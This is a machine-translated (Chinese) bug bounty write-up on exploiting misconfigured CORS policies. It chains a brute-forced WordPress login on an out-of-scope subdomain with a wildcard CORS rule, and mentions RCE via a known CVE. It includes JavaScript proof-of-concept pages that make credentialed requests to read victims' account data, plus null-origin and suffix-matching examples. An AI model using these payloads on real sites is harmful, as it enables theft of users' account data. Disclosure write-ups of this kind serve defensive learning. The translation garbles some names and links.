



# 用一连串的错误打破了有限的范围(给每个骑手的提示 CORS)

> 原文：<https://infosecwriteups.com/broke-limited-scope-with-a-chain-of-bugs-ef734ac430f5?source=collection_archive---------0----------------------->


一天早上，我被邀请参加一个私人的臭虫奖励计划。总的来说，我在安全方面的经验都是基于这样的私人项目。这在一方面是好的，因为几乎没有人急于在其他人之前找到最危险的 bug。另一方面，这是一个糟糕的增长点。增长点肯定是有的，但是这种情况下的增速还是挺慢的。给我写信的人要了一个链接，指向我的 [HackerOne 账户](https://hackerone.com/krevetk0)。我分享了我个人资料的链接。但是我有点尴尬。那时我个人资料是零信誉(5 个月前)。其实不是。这有点消极，因为我曾经试图联系该公司，通知他们“功能损坏”，但当时我找不到比 HackerOne 更好的连接。我报告了一个问题。但是我得到了一个负面的信誉分数，仅仅因为这个问题与安全领域无关。而且从那以后我就没用过这个账号了。在那个时候，我决定用一切手段来解决这个问题。

它决定尝试在几个节目中为自己平反。两个程序都是私有的。但这并没有简化情况，因为在我之前，在信息安全领域有名气的人已经在那里发现了很多漏洞。

在第一个程序中，我有一个有限的范围等待着我(这是当只有某些领域和子域被允许测试)。



这种顺序总是让我有点吃惊。如果你的公司被发现通过主范围之外的子域泄露数据，你仍然不能逃脱 GDPR 或 CCPA 的罚款。当然，这都是来自经济领域。但在我看来，限制范围就是制造额外的风险。

当我开始在一个主要领域寻找漏洞的冒险时，我想到了一个有趣的惊喜。在向服务器发出几次请求后，我发现一个配置非常奇怪的 CORS 策略。

关于起源:attacker.companyname.com 请求。
我得到了答案*.companyname.com 和额外的头 Access-Control-Allow-Credentials:true


在我的例子中，有子域通配符。考虑到子域不是漏洞搜索程序的一部分，这是不是有点奇怪？在这种情况下，我决定向公司证明该计划的局限性有点奇怪。所以我开始搜索能够让我执行黑客攻击(攻击场景)的子域。

从攻击者的角度来看，我的 CORS 配置可能是危险的，如果我找到一种方法来进行子域接管或通过 XSS 向量实施攻击。

试图找到一个子域接管有效的错误失败了，我决定挖掘任何子域上的 XSS。我的注意力被一个 WordPress 网站列表吸引住了。大多数都被遗弃了。最后一篇文章是几年前写的。很明显，各版本都存在所有最新的严重漏洞。我试图利用其中的一些，但这些尝试都不成功。大多数人认为 WordPress 至少有最低限度的用户权限。在这一点上，我想向 NordVPN 项目的所有者问好，他们接受来自[扫描仪的](https://hackerone.com/reports/752073)[报告](https://hackerone.com/reports/751876)，而没有真实的剥削例子。🤦

然后，我决定通过 XML-RPC 强行获取凭证。对了，可用的 XML-RPC 也是被低估的漏洞之一。

几分钟后，我用用户名和密码为我的攻击收集了一个简单的字典。确定用户并不困难。这本词典包含关键词——公司名称、城市、公司成立年份等等。几分钟后，我进入了一个 WordPress，出于某种原因，那里有一个密码为“公司名称”的用户。而用户本人，从 Linkedin 来看，并没有在这家公司工作很长时间。



主域上可供利用的漏洞链开始慢慢发展。接下来的几天，我继续慢慢琢磨这是什么版本的引擎。用什么样的主题。安装了什么样的插件？但是在我研究的第一天，我做了一件重要的事情。我通过创建一个新的空白出版物来跟踪网站上可能的活动，从而嵌入了跟踪像素( [IP logger](https://iplogger.ru/) )。这对我帮助很大！！！

以下代码用于攻击主域。

```
<script>
function cors() {  
var xhttp = new XMLHttpRequest();  
xhttp.onreadystatechange = function() {    
    if (this.status == 200) {    
    console.log('Ololo >>>', this.responseText);         
    }  
};  
xhttp.open("GET", "https://www.example.com/v/account/welcome/show", true);  
xhttp.withCredentials = true;  
xhttp.send();
}
cors();
</script>
```

我把它放在一个有编辑权限的受控 WordPress 站点的主页上。事实上，这是我针对用户的展示攻击场景的最终计划。用户只需打开我的 mywordpress.example.com，他的所有重要数据都可能被攻击者捕获。这意味着他从主域的活动登录会话登录到了我的子域，能够读取用户的所有敏感信息。

有了这些结果，你可以写一份报告，得到哈克龙的声誉积分，甚至一些钱。但是我不能放弃这样的想法，即受控的 Wordpress 可能有其他的东西。在多花了一点时间后，我有了 PoC，拥有用户权限的用户可以在服务器上执行命令(RCE)。在我的情况下，我使用的已知漏洞[CVE-2019-8942](https://pentest-tools.com/blog/wordpress-remote-code-execution-exploit-CVE-2019-8942)。

最后，我能够通过一个松散配置的 CORS 策略构建一个攻击用户的漏洞链。另外，我能够在其中一个子域上制作一个 RCE。我记录了两份不同的报告，然后开始等待。关于 CORS 的报道很快就被拆封了。他们能够足够快地复制它并开始修复它。但是关于 RCE 的报告开放了 15 天。但是在这里，跟踪像素 IPLogger 帮助了我。



几天后，我在捕获的 Wordpress 上发现了一些活动。又过了一天，网站不可用。关于 CORS 的主要报告被标记为固定和封闭的，但是 WordPress 子域名上的 RCE 仍然开放。这让我非常生气，我通过沟通渠道来解决问题。在我的电子邮件中，我提供了公司员工如何进入被捕获的网站、在那里执行一些操作并最终关闭网站的事实。第二天，我没有收到该公司的任何回复，但我收到了哈克龙的两封电子邮件，通知我两份报告都已关闭，而且都已付款。当然，我很高兴看到这种情况继续下去。毕竟，我的主要目标是获得一些声誉分数，每个人都很喜欢看这些分数。

同样在现实生活中，我遇到了 CORS 的误解，即在没有右侧限制和参考者检查的情况下，域中存在信任。
这个问题是在另一个私人程序中发现的。为了遵守隐私政策，我们把这个网站命名为**trustcasino.com**。
在与该站点交互过程中，检测到以下情况—如果我们发送了带有以下标题的请求:

```
Origin: https://www.trustcasino.com.anydomain.com
Referer: https://anydomain.com
```

回应是

```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://www.trustcasino.com.anydomain.com
Access-Control-Allow-Methods: POST, GET
```

由于 CORS 政策中的此类错误，有可能从 trustcasino.com 的授权用户处接收数据。
您需要做的就是创建以下地址[https://www.trustcasino.com.anydomain.com/pidor.html](https://www.trustcasino.com.anydomain.com/pidor.html)并吸引用户。pidor.html 文件本身应该包含以下代码。

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("GET", "https:\/\/www.trustcasino.com\/myaccount\/deposit.json", true);
        xhr.withCredentials = true;
        var body = "";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
    xhr.onreadystatechange = function() {
            if (xhr.readyState === 4) {
            alert(xhr.response);
            }
    } 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
```

当用户点击攻击者的页面(trust casino . com . any domain . com/pidor . html)时，有关 trustcasino.com 用户帐户的所有信息都会传输到攻击者域。

有这样的请求还有另一个 CORS 配置错误:

```
GET /alltransactions
Host: docs.bigbank.com
Origin: null
```

我们将收到:

```
HTTP/1.1 200 OK
Acess-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

据我所知，这种攻击的概念验证应该是这样的:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" 
src='data:text/html,<script>*cors stuff here*</script>’>
</iframe>
```

总之，在 CORS 的配置策略中，有一些东西可以帮助攻击者:子域通配符，前域通配符，后域通配符，空起源。

PS:点击👏“拍手”图标，如果你喜欢这篇文章😉

# 参考

[https://www . we45 . com/blog/3-ways-to-exploit-misconfigured-cross-origin-resource-sharing-CORS](https://www.we45.com/blog/3-ways-to-exploit-misconfigured-cross-origin-resource-sharing-cors)
https://ports wigger . net/blog/exploining-CORS-misconfiguration-for-bit coins-and-boundants
[https://habr.com/ru/company/pentestit/blog/337146/](https://habr.com/ru/company/pentestit/blog/337146/)
[https://medium . com/pare ture/simple-local-CORS-test-tool-544 f 108311 C5](https://medium.com/pareture/simple-local-cors-test-tool-544f108311c5)

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)